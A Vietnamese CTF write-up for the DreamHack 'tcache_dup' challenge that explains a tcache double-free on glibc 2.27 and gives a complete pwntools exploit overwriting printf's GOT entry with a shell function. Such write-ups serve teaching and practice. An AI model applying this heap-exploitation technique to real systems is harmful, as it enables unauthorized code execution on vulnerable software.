


# tcache_dup---Write-up-----DreamHack
Hướng dẫn cách giải bài tcache_dup cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 1/4/2026

## 1. Mục tiêu cần làm
Bài này cho phép ghi đè lên GOT và No PIE, vậy là đủ với 1 bài **Double Free** rồi, thường thì các bài **Double Free** sẽ có 1 cơ chế là `key` để phòng bị khai thác bug. Nhưng cái này chỉ có ở bản libc 2.29 trở lên thôi, bài mình làm là 2.27 nên aight bet. Ok giờ đọc code thôi.

```C
// gcc -o tcache_dup tcache_dup.c -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char *ptr[10];

void alarm_handler() {
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int create(int cnt) {
    int size;

    if (cnt > 10) {
        return -1;
    }
    printf("Size: ");
    scanf("%d", &size);

    ptr[cnt] = malloc(size);

    if (!ptr[cnt]) {
        return -1;
    }

    printf("Data: ");
    read(0, ptr[cnt], size);
}

int delete() {
    int idx;

    printf("idx: ");
    scanf("%d", &idx);

    if (idx > 10) {
        return -1;
    }

    free(ptr[idx]);      // Use After Free
}

void get_shell() {
    system("/bin/sh");
}

int main() {
    int idx;
    int cnt = 0;

    initialize();

    while (1) {
        printf("1. Create\n");
        printf("2. Delete\n");
        printf("> ");
        scanf("%d", &idx);

        switch (idx) {
            case 1:
                create(cnt);
                cnt++;
                break;
            case 2:
                delete();
                break;
            default:
                break;
        }
    }

    return 0;
}
```

Để mình giải thích cơ chế của **Double Free**. Khi chúng ta free 1 chunk 2 lần liên tục thì con trỏ để trỏ tới chunk tiếp theo sẽ bị trỏ vào nhau, thành ra tạo thành 1 vòng lặp vô tận là chunk đó tự trỏ vào chính nó. Nếu ta malloc 1 chunk bằng size của chunk đó và sửa được con trỏ thì thay vì nó trỏ vào chính nó thì sẽ trỏ vào vị trí ta ghi vào ( mình sẽ để hình minh họa ở phần 2 ). Nếu ta trỏ vào `printf` và thay thế nó bằng `get_shell` thì bú. Ok bắt tay vô làm thôi.

## 2. Cách thực thi
Đầu tiên mình sẽ tạo 1 chunk và free chunk đó 2 lần liên tục, nó sẽ tự trỏ vào nhau trong chính bins và heap.



Như các bạn thấy, nó đang trỏ vào chính nó. Giờ mình sẽ tạo 1 chunk bằng kích thước đó và ghi nội dung vào. Tại vì vị trí ghi nội dung lại trùng ngay vị trí con trỏ nên ta có thể thay đổi nó. Sẽ có 1 vài bài không có được vậy nên chúng ta hãy xài cách khác.

Đây là sau khi mình ghi vị trí `printf` vào con trỏ đó.



Các bạn thấy chưa, nó đã trỏ vào `printf` rồi. Bins thì nó sẽ hoạt động theo cách LIFO, nên nếu chúng ta muốn lấy chunk tại vị trí `printf` thì ta cần lấy chunk đầu tiên ra đã. Nên mình sẽ malloc 1 chunk rác rồi sau đó mới lấy chunk `printf` ra.

```Python
create(0x40, "BBBB")
create(0x40, p64(get_shell))
```

Sau khi lấy chunk `printf` ra thì mình sẽ ghi nội dung của nó thành `get_shell` là bú được shell thôi. Bài này nó đơn giản thế thôi tại vì không có `key`. Hiện tại thì đa phần sẽ là có key và struct, 2 combo này kết hợp sẽ khó khai thác hơn rất nhiều. Vì sao á ?

Nếu có `key` thì ta cần thay đổi `key` đó sao cho khác để có thể **Double Free**. Tiếp theo là struct thì thường ngay vị trí con trỏ nó sẽ không cho ta ghi nội dung vào đó, thành ra ta phải sử dụng cách khác. Thôi thì nói đến đây thôi, có lẽ đây sẽ là bài cuối cùng mình làm vì mình hết đam mê với PWN rồi. Có khi mình sẽ chơi sang mảng khác vui hơn, hay hơn như Forensics chẳng hạn 🤓.

Cảm ơn các bạn PWN đã đồng hành cùng mình đến bây giờ, tạm biệt và thân ái 🐧. À quên nhớ cho mình 1 star để có động lực viết write up các bài Forensics nha.

## 3. Exploit
```Python
from pwn import *

exe = ELF("./tcache_dup_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe

p = process('./tcache_dup_patched')
#p = remote('host8.dreamhack.games', 14756)

def create(size, data):
    p.sendlineafter("> ", "1")
    p.sendlineafter("Size: ", str(size))
    p.sendafter("Data: ", data)

def delete(idx):
    p.sendlineafter("> ", "2")
    p.sendlineafter("idx: ", str(idx))

create(0x40, "AAAA")
delete(0)
delete(0)

pause()

printf_got = exe.got['printf']
get_shell = exe.symbols['get_shell']

create(0x40, p64(printf_got))
pause()
create(0x40, "BBBB")
create(0x40, p64(get_shell))

p.interactive()
```
